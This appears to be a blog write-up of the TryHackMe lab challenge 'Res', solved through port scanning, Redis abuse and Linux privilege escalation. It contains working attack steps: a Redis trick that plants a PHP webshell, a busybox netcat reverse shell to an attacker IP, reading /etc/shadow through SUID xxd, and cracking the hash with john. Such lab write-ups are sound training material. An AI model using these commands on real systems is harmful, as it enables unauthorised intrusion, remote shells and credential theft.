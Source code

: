 ```yaml
---
title: "Res"
date: 2025-02-05
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Res
categories: [TryHackMe, Easy]
tags: [linux, dbms, redis, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Res</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/res">https://tryhackme.com/room/res</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Res.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.174.47             
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 04:14 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.043s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  6379/tcp open  redis

  Nmap done: 1 IP address (1 host up) scanned in 30.83 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,6379 10.10.174.47
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 04:15 EST
  Nmap scan report for 10.10.174.47
  Host is up (0.037s latency).

  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  6379/tcp open  redis   Redis key-value store 6.0.7

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 7.42 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Since the webserver displayed an `Apache2` default website, I conducted a Gobuster scan, but it didn’t reveal anything useful.

## Port 6379 Analysis

As nmap revealed a `redis` service running on port `6379`, I used the redis cli to connect to the server. Since redis uses a file-based structure, I was able to create a new file. I leveraged this to create a PHP webshell: 

```bash
10.10.3.94:6379> config set dir /var/www/html
	OK
10.10.3.94:6379> config set dbfilename shell.php
	OK
10.10.3.94:6379> set test "<?php system($_GET['cmd']);?>"
	OK
10.10.3.94:6379> save
	OK
```

This allowed me to successfully execute commands on the system:

![Command Execution](/assets/img/tryhackme/Res/thm_res_1.jpg)

Next, I generated a reverse shell using `busybox`:

```bash
http://10.10.3.94/shell.php?cmd=busybox nc [attackerip] 9001 -e sh
```

Netcat received the the reverse shell, after which I stabilized the session. From here I was able to collect the user flag:

```bash
www-data@ubuntu:/var/www/html$ cd /home
www-data@ubuntu:/home$ ls
	vianka
www-data@ubuntu:/home$ cd vianka/
www-data@ubuntu:/home/vianka$ ls
	redis-stable  user.txt
www-data@ubuntu:/home/vianka$ cat user.txt 
	thm{[removed]} 
```

## Privilege Escalation vianka

While performing manual privilege escalation techniques, I discovered an executable with the SUID bit set:

```bash
/usr/bin/xxd
```

I used xxd to read the `shadow` file which gave me the user hash from `vianka`:

```bash
$ LFILE=/etc/shadow
$ xxd "$LFILE" | xxd -r
	vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

On my local machine I created a file, pasted the hash in and ran it with `john` against the `rockyou.txt`:
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash  
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[removed]       (vianka)     
1g 0:00:00:00 DONE (2025-02-13 05:02) 10.00g/s 20480p/s 20480c/s 20480C/s 123456..lovers1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Using the cracked password, I successfully logged in as `vianka`:
```bash
www-data@ubuntu:/home/vianka$ su vianka 
  Password: 
vianka@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
vianka@ubuntu:~$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

From here I just needed to read the flag:
```bash
vianka@ubuntu:~$ sudo cat /root/root.txt
thm{[removed]}
```

solved! :)